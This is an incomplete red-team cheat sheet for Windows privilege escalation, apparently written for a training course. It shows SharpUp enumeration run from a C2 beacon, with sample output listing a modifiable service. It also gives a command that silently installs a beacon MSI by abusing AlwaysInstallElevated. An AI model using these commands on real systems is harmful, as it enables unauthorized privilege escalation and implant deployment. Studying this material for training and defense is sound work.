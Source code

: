 # RTO CheatSheet

## Persistence

### COM Hijacking

<TODO>
  
## PrivEsc
  
### Enumeration
  
#### SharpUp

https://github.com/GhostPack/SharpUp

Sample usage:
  
> beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Debug\SharpUp.exe
> 
> === Modifiable Services ===
> 
>  Name             : Vuln-Service-2
>
>  DisplayName      : Vuln-Service-2
>
>  Description      : 
>
>  State            : Running
>
>  StartMode        : Auto
>
>  PathName         : "C:\Program Files\Vuln Services\Service 2.exe"

Detects:
  - Modifiable Service
  - AlwaysInstallElevated flags in Registry
  
### Weaponized

#### AlwaysInstallElevated - Install msi package file

> beacon> run msiexec /i BeaconInstaller.msi /q /n
